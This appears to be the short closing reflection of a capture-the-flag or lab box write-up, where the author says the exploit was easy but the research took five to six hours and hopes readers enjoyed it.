This was really a difficult one, easy to fall in rabbit holes or get lost in the galaxy of the Internet. The exploit on itself was very easy, and we could have hacked this box in less than 15 minutes. Instead of this, it took something like 5-6 hours just for googling and figuring out what I was supposed to do with the information I got so far.

Hopefully you enjoyed as much as I did :-)
